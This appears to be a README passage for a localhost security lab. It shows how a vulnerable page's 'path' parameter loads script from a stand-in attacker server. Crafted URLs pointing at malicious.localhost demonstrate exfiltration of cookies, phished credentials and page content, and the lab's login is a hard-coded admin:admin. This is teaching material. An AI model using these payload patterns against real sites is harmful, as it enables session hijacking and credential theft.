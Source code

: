 ```bash
python3 malicious_server.py -p 443 -k Mserver.key -c Mserver.pem
python3 vulnerable_server.py -p 8000 -k vulserver.key -c vulserver.pem
```
6) Access from browser and accept self-signed certificates.
```bash
https://localhost:8000
https://malicious.localhost:443
```
7) The vulnerable web application has following pages. /vulDemo.html contains the vulnerability. /content and /sensitiveContent is only accessible after login with credential admin:admin.
```bash
https://localhost:8000/vulDemo.html
https://localhost:8000/login
https://localhost:8000/content
https://localhost:8000/sensitiveContent
```
# Attacks carry out
## 1, Cookie exfiltration 

Simulate victim, login the app with  credential admin:admin
```bash
https://localhost:8000/
```
Simulate victim, click on the crafted phishing url to trigger attack. (Vulnerability exists in vulDemo.html page) 
```bash
https://localhost:8000/vulDemo.html?path=https://malicious.localhost:443/cookies.js
```
Check malicious server log. Dump data from Database
```bash
python3 db.py -Lk
```
## 2, Credential exfiltration
This will load a static hard-coded login page written by attacker, despite trying to simulate the UI of the origin. Any input credential will be exfiltrated.
```bash	
https://localhost:8000/vulDemo.html?path=https://malicious.localhost:443/login.js
```
```bash
python3 db.py -Lp 
```
## 3, Web content exfiltration
If victim has already logged in, .js will load vulnerable app's /content page directly. Otherwise, it will load the app's /login page firstly.
```bash
https://localhost:8000/vulDemo.html?path=https://malicious.localhost:443/contentExf.js
```
```bash
python3 db.py -Lc
```
# Lessons learnt / Security suggestion
